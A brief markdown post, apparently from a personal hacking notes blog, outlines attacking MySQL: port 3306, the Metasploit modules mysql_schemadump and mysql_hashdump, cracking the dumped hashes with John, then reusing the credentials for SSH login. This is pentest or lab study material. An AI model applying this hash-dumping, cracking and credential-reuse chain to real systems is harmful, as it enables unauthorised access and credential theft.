 ```yaml
---
title: MySQL
date: 2022-06-09 19:36:00 +/-0000
categories: [hacking]
tags: [mysql]     # TAG names should always be lowercase
---
```


# Hacking MySQL

### Port Number
3306

### To find tables

'''console
auxiliary/scanner/mysql/mysql_schemadump
'''

### To dump hashes

'''console
auxiliary/scanner/mysql/mysql_hashdump
'''

Copy the username and password to text file then run

'''console
John *filename*
'''

Then try logging in SSH using username and password
f
